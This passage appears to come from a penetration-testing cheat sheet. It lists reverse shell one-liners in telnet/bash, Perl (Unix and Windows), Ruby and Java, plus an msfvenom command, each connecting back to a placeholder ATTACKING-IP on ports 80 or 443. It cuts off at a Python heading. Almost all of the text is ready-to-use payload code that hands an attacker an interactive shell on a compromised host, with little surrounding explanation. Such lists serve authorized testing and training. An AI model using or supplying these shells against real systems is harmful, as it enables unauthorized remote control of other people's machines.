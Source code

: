 {% highlight bash %}
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
{% endhighlight %}

Remember to listen on 443 on the attacking machine also.

## Perl Reverse Shell

{% highlight perl %}
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
{% endhighlight %}

### Perl Windows Reverse Shell

{% highlight perl %}
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
{% endhighlight %}

{% highlight perl %}
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
{% endhighlight %}

### MSFVenom Perl Reverse Shell

MSFVenom can be used to generate a Perl reverse sell using the following command: 

{% highlight bash %}
msfvenom -p cmd/unix/reverse_perl LHOST=ATTACKING-IP LPORT=443 -f raw > reverse-shell.pl
{% endhighlight %}

## Ruby Reverse Shell
{% highlight ruby %}
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
{% endhighlight %}

## Java Reverse Shell

{% highlight java %}
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
{% endhighlight %}

## Python Reverse Shell
